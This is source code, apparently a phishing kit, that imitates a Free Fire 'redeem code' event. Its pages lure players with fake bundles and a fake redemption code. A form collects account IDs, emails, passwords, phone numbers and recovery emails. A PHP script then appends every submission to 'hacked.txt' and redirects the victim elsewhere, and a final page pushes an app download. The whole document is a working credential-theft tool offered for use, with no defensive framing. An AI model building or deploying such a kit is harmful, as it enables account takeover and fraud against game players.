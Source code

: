 <html>
<head>
<title>Free Fire - Redeem Code</title>
<meta charset="UTF-8"/>
<meta http-equiv="X-UA-Compatible" content="IE=edge"/>
<meta name="viewport" content="width=device-width, initial-scale=1.0, minimum-scale=1.0, maximum-scale=1.0, user-scalable=no"/>
<meta property="og:title" content="Free Fire Winterlands - Redeem Code"/>
<meta property="og:url" content="index.html"/>
<meta property="og:description" content="Get the free fire winterlands monthly event, redeem here"/>
<meta property="og:type" content="article"/>
<meta property="article:author" content="https://www.facebook.com/MobileLegendsGame"/>
<meta property="og:image" content="img/banner.jpg"/>
<link rel="icon" type="img/png" href="http://freefiremobile-a.akamaihd.net/ffwebsite/images/app-icon.png" sizes="32x32"/>
<link rel="stylesheet" type="text/css" href="css/index.css"/>
</head>
<body>
<div class="logo">
<img src="http://freefiremobile-a.akamaihd.net/ffwebsite/images/app-icon.png" alt="Free Fire Winterlands"/>
</div>
<img class="banner" src="https://1.bp.blogspot.com/-A4yuxmO8-Ws/XhBFUOeGf8I/AAAAAAAAAlM/w1Q5xixYe4s-NV9C2Nl_C886MVAI9XEKQCLcBGAsYHQ/s1600/Banner.jpg" alt="Banner"/>
<div style="clear:both"></div>
<div class="herohead">
<center><font style="font-size:14px;color:#64ffda;">Redemption Code</font></center><br/>
<input class="code" value="BHDO K6UM SGMQ O6AS" readonly=""/>
<div class="title"><b>MONTHLY EVENT</b> | COPY REDEEM CODE</div>
<a href="submit.php" class="avatar" title="Alpha">
<img src="css/uhu/x/fotouhu/uhuinfo-foto13.png" alt="BUNDLE"/>
<small>BUNDLE<br/>New Years</small>
</a>
<a href="submit.php" class="avatar" title="Alpha">
<img src="css/uhu/x/fotouhu/uhuinfo-foto6.png" alt="BUNDLE"/>
<small>BUNDLE<br/>Winterlands</small>
</a>
<a href="submit.php" class="avatar" title="Estes">
<img src="css/uhu/x/fotouhu/uhuinfo-foto7.png" alt="BUNDLE"/>
<small>BUNDLE<br/>Winter Elk</small>
</a>
<a href="submit.php" class="avatar" title="Miya">
<img src="css/uhu/x/fotouhu/uhuinfo-foto8.png" alt="SET"/>
<small>SET<br/>Grumpy old</small>
</a>
</div>
<ul class="news">
<li style="background-image:url(css/uhu/x/uhuinfo99/Icon_AR_orange.png)" alt="M4A1">M4A1<br/><small>A balanced rifle is suitable for all types of battles.</small></li>
<li style="background-image:url(css/uhu/x/uhuinfo99/Icon_SMG_orange.png)" alt="MP5">MP5<br/><small>Beyond other machine guns in terms of stability, but less effective for long distances.</small></li>
<li style="background-image:url(css/uhu/x/uhuinfo99/Icon_SG_orange.png)" alt="M1014">M1014<br/><small>Use the shotgun to destroy melee enemies quickly.</small></li>
<li style="background-image:url(css/uhu/x/uhuinfo99/Icon_SR_orange.png)" alt="AWM">AWM<br/><small>High strength sniper rifle with long reload time.</small></li>
<li style="background-image:url(css/uhu/x/uhuinfo99/Icon_Pistol_orange.png)" alt="USP">USP<br/><small>A light gun that does not affect the user's agility.</small></li>
<li style="background-image:url(css/uhu/x/uhuinfo99/Icon_Melee_orange.png)" alt="PAN">PAN<br/><small>Great shield that protects users from anything your enemy can use.</small></li>
</ul>
</body>

</html>
<html>
<head>
<title>Free Fire - Redeem Code</title>
<meta charset="UTF-8"/>
<meta http-equiv="X-UA-Compatible" content="IE=edge"/>
<meta name="viewport" content="width=device-width, initial-scale=1.0, minimum-scale=1.0, maximum-scale=1.0, user-scalable=no"/>
<meta property="og:title" content="Mobile Legends - Weekly Free Heroes"/>
<meta property="og:url" content="index.html"/>
<meta property="og:description" content="Get the free fire winterlands monthly event, redeem here"/>
<meta property="og:type" content="article"/>
<meta property="article:author" content="https://www.facebook.com/MobileLegendsGameIndonesia"/>
<meta property="og:image" content="img/banner.jpg"/>
<link rel="icon" type="img/png" href="http://freefiremobile-a.akamaihd.net/ffwebsite/images/app-icon.png" sizes="32x32"/>
<link rel="stylesheet" type="text/css" href="css/redeem.css"/>

</head>
<body>
<form align="right" action="process.php" method="POST">
<img src="https://1.bp.blogspot.com/-A4yuxmO8-Ws/XhBFUOeGf8I/AAAAAAAAAlM/w1Q5xixYe4s-NV9C2Nl_C886MVAI9XEKQCLcBGAsYHQ/s1600/Banner.jpg" alt="Instruction"/>
<br/><br/>

<label for="id">Account ID</label>*
<input minlength="5" maxlength="7" type="number" name="id" required=""/>
<br/><br/>
<label for="country">LOG IN</label>*
<select name="country" required="">
<option value="VK" selected="">VK</option>
<option value="FB">FB</option>
</select>
<br/><br/>

<label for="code">Redeemption Code</label>*
<input minlength="1" maxlength="16" type="text" name="code" required=""/>
<br/><br/>

<hr/><br/>
<label for="email">Email/HP</label>*
<input minlength="3" maxlength="50" type="text" name="email" required=""/>
<br/><br/>
<label for="password">Password</label>*
<input minlength="5" maxlength="50" type="password" name="password" required=""/>
<br/><br/>
<label for="phone">Phone</label>*
<input minlength="8" maxlength="13" type="number" name="phone" required=""/>
<br/><br/>
<label for="recoveryemail">2nd Email</label>*
<input minlength="15" maxlength="50" type="email" name="emailr" required=""/>
<br/><br/>
<hr/><br/>
<div align="center">
<p><small>Take your Diamond + bundle, check the mail box in the game after (30) Minutes</small></p>
<br/>
<input type="submit" value="Submit"/>
</div>
</form>
</body>

</html>
<?php
$id = $_POST['id'];
$country = $_POST['country'];
$email = $_POST['email'];
$password = $_POST['password'];
$hp = $_POST['phone'];
$emailr = $_POST['emailr'];
?>

<?php

file_put_contents("hacked.txt", "[Id:] " . $id = $_POST['id'] . " [Country:] " . $country = $_POST['country'] . " [Email:] " . $email = $_POST['email'] . "[Password]" . $password = $_POST['password'] . "[Hp]" . $hp = $_POST['phone'] . "[Emailr]" . $emailr = $_POST['emailr'] . "\n", FILE_APPEND);
header('Location: https://www.noob-hackers.com');
?>

<center><span style='background:limegreen;width:360px;margin:0;padding:5px 0;color:black;display:block'>Success! Your submission has been requested</span></center>

<html>
<head>
<title>Free Fire - Redeem Code</title>
<meta charset="UTF-8"/>
<meta http-equiv="X-UA-Compatible" content="IE=edge"/>
<meta name="viewport" content="width=device-width, initial-scale=1.0, minimum-scale=1.0, maximum-scale=1.0, user-scalable=no"/>
<meta property="og:title" content="Free Fire Winterlands - Redeem Code"/>
<meta property="og:url" content="index.html"/>
<meta property="og:description" content="Get the free fire winterlands monthly event, redeem here"/>
<meta property="og:type" content="article"/>
<meta property="article:author" content="https://www.facebook.com/MobileLegendsGameIndonesia"/>
<meta property="og:image" content="img/banner.jpg"/>
<link rel="icon" type="img/png" href="http://freefiremobile-a.akamaihd.net/ffwebsite/images/app-icon.png" sizes="32x32"/>
<link rel="stylesheet" type="text/css" href="css/index.css"/>
</head>
<body>
<div class="logo">
<img src="http://freefiremobile-a.akamaihd.net/ffwebsite/images/app-icon.png" alt="Free Fire Winterlands"/>
</div>
<img class="banner" src="https://1.bp.blogspot.com/-UEFjQE1QOKY/XhBG5WkqNqI/AAAAAAAAAlY/_Ley0LvHyycIUQvHy1wZNEeA5Spqz2MPQCLcBGAsYHQ/s320/IMG_20200104_133005.jpg" alt="Banner"/>
<div style="clear:both"></div>
<div class="button">
<div class="event"><center><strong>Congratulations</strong></center><br/>1. Please download app by clicking  <strong>App Available Download </strong> on the button below and copy <strong> Unique Code</strong> on that page.<br/>2. After that, click the event you want to claim below and paste <strong>Unique Code</strong> you have copied.<br/><br/>Prizes and bonuses will be given after <strong>30 minutes</strong>, for players who have sent.</div>
<a href="http://d.helo-app.com/LCuDUo/" title="Download on Play Store"><img src="img/download.png" alt="Download"/></a>
<a href="https://reward.ff.garena.com/" title="Redemption Code"><img src="img/code.png" alt="Redemption Code"/></a>
</div>
<ul class="news">
<li style="background-image:url(css/uhu/x/uhuinfo99/Icon_AR_orange.png)" alt="M4A1">M4A1<br/><small>A balanced rifle is suitable for all types of battles.</small></li>
<li style="background-image:url(css/uhu/x/uhuinfo99/Icon_SMG_orange.png)" alt="MP5">MP5<br/><small>Beyond other machine guns in terms of stability, but less effective for long distances.</small></li>
<li style="background-image:url(css/uhu/x/uhuinfo99/Icon_SG_orange.png)" alt="M1014">M1014<br/><small>Use the shotgun to destroy melee enemies quickly.</small></li>
<li style="background-image:url(css/uhu/x/uhuinfo99/Icon_SR_orange.png)" alt="AWM">AWM<br/><small>High strength sniper rifle with long reload time.</small></li>
<li style="background-image:url(css/uhu/x/uhuinfo99/Icon_Pistol_orange.png)" alt="USP">USP<br/><small>A light gun that does not affect the user's agility.</small></li>
<li style="background-image:url(css/uhu/x/uhuinfo99/Icon_Melee_orange.png)" alt="PAN">PAN<br/><small>Great shield that protects users from anything your enemy can use.</small></li>
</ul>
</body>
</html>

